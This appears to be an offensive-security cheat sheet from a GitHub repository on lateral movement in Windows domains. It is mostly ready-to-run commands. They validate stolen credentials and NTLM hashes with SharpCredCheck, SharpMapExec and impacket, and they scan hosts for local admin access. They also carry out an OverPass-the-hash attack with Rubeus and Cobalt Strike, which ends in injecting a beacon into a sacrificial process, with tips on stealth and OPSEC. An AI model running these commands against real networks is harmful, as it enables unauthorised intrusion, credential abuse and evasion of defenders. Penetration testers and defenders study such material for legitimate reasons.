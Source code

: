 # __Lateral movement__
>Author: Pieter Miske
---
### __Verify access:__
#### _Verify found credentials:_
- Verify local credentials \([SharpCredCheck](https://github.com/pietermiske/SharpCredCheck)\): `SharpCredCheck.exe /username:<username> /password:<password> /local`
- Verify domain credentials \(SharpCredCheck\): `SharpCredCheck.exe /username:<username> /password:<password> /ad`
- Verify creds in another domain \(SharpCredCheck\): `SharpCredCheck.exe /username:<username> /password:<password> /domain:<FQDN> /dc:<IP or FQDN DC> /ad`
- Validate credentials and type of access on remote system (requires elevated privileges on the current system) \([SharpMapExec](https://github.com/cube0x0/SharpMapExec)\): `SharpMapExec ntlm <smb | winrm> /user:<username> [/ntlm:<ntlm hash> | /password:<password>] (/domain:<FQDN>) /computername:<FQDN target computer>`
- Validate creds via Kerberos \([impacket](https://github.com/SecureAuthCorp/impacket)\): `(proxychains4) getTGT.py <domain>/<usename> (-hashes :<NTLM>) -dc-ip <FQDN DC>`

#### _Verify local admin access:_
- 1\. Upload or create a file called 'computers\.txt' containing FQDN's of computers within the network to the directory 'C:\\users\\public\\documents\\' 
- 2\. Start scan (requires elevated privileges on the current system):
	- Using password \([SharpMapExec](https://github.com/cube0x0/SharpMapExec)\): `SharpMapExec kerberos <smb | winrm> /ticket:C:\Windows\<username>.kirbi /computername:C:\users\public\documents\computers.txt`
	- Using NTLM hash \(SharpMapExec\): `SharpMapExec ntlm smb /user:Administrator /ntlm:<local admin hash> /computername:C:\users\public\documents\computers.txt`

---
### __Change access:__
#### _Get domain access on a non\-domain joined system:_
- 1\. In the 'Network and Sharing Center' edit the Ethernet connection's 'Internet Protocol versie 4 \(TCP/Ipv4\)' item and enter in the "Use the following DNS server address" field the IP address of a DC in the target domain\.
- 2\. Start a new powershell session to interact with the domain from the context of a domain user \(requires valid credentials\): `runas /netonly /user:<domain>\<username> "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"`
- 3\. It is now possible to run most tools with the privileges of the specified domain user

#### _OverPass\-the\-hash:_
OverPass The Hash  can be used when NTLM is disabled or as a stealther approach for authorisation to objects within the domain\. A lot of tradecraft that leverages NTLM are undesirable and therefore always use AES256 keys\. 
>If the ticket is not working, try both the FQDN and the NetBIOS name of the target system\. 
- From CS Beacon \(this avoids any adverse effects and better OPSEC\):
	- 1\. \(optional\) if you have a password convert it to AES256 key \([Rubeus](https://github.com/GhostPack/Rubeus)\): `rubeus.exe hash /password:<password> /domain:<FQDN> /user:<username> `
	- 2\. Request a new TGT \(Rubeus\): `Rubeus.exe asktgt /user:<USER> /domain:<FQDN of target domain> /aes256:<HASH> /opsec /nowrap (/dc:<FQDN DC>) `
	- 3\. Copy the TGT and save it locally on the CS client attacker system: `[System.IO.File]::WriteAllBytes("C:\Secrets\ticket.kirbi", [System.Convert]::FromBase64String("<base64 TGT string>"))`
	- 4\. Create a new/clean logon session \(make sure you are in a global writeable directory\): `make_token <domain>\<target user> DummyPass`
	- 5\. Create a sacrificial process: `run C:\Windows\System32\upnpcont.exe`
	- 6\. Find the PID of the new process: `ps`
	- 7\. Start a local TCP beacon listener in CS
	- 8\. Inject into the newly spawned process: `inject <PID> x64 <local TCP listener name>`
	- 9\. In the new spawned TCP beacon, import the TGT: `kerberos_ticket_use C:\<local path to>\ticket.kirbi`